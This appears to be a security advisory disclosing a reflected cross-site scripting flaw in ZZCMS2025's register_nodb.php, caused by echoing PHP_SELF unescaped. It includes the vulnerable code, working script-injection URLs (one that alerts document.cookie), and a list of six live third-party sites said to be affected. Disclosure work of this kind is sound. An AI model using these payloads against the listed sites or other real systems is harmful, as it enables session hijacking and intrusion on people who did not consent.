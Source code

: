 # Cross-Site Scripting (XSS) Vulnerability in ZZCMS register_nodb.php



## Vendor Information

**Official Website**:  http://www.zzcms.net/

**Source Code Download Link**:  http://www.zzcms.net/download/zzcms2025.zip

**Product Version:**  ZZCMS2025



## Vulnerability Analysis



### Source Code Analysis

The file `3/ucenter_api/code/register_nodb.php` was examined and found to contain a form submission.

```php+HTML
if(empty($_POST['submit'])) {
	//注册表单
	echo '<form method="post" action="'.$_SERVER['PHP_SELF'].'?example=register">';
	echo '注册:';
	echo '<dl><dt>用户名</dt><dd><input name="username"></dd>';
	echo '<dt>密码</dt><dd><input name="password"></dd>';
	echo '<dt>Email</dt><dd><input name="email"></dd></dl>';
	echo '<input name="submit" type="submit">';
	echo '</form>';
}
```

`$_SERVER['PHP_SELF']` is a controllable variable. It directly echoes user-supplied data on the page without proper filtering or escaping. An attacker can exploit this vulnerability by crafting a malicious URL to execute arbitrary scripts, potentially leading to session hijacking or other malicious actions.



### Request Construction

// Display cookies alert

```http
http://demo.com/3/ucenter_api/code/register_nodb.php/"><script>alert(document.cookie)</script>
```



### Vulnerability Verification

```http
http://hzp.zzcms.net/3/ucenter_api/code/register_nodb.php/%22%3E%3Cscript%3Ealert(%22success%22)%3C/script%3E
```

![image-20250226185444560](C:\Users\Rorochan\AppData\Roaming\Typora\typora-user-images\image-20250226185444560.png)

### Website Reference

**Note: Actual case examples from cyberspace**

```
http://demo.zzcms.net/3/ucenter_api/code/register_nodb.php/"><script>alert("success")</script>
https://www.88zsw.com/3/ucenter_api/code/register_nodb.php/"><script>alert("success")</script>
http://818yyzs.com/3/ucenter_api/code/register_nodb.php/"><script>alert("success")</script>
http://bjp.zzcms.net/3/ucenter_api/code/register_nodb.php/"><script>alert("success")</script>
http://9.zzcms.net/3/ucenter_api/code/register_nodb.php/"><script>alert("success")</script>
http://hzp.zzcms.net/3/ucenter_api/code/register_nodb.php/"><script>alert("success")</script>
```

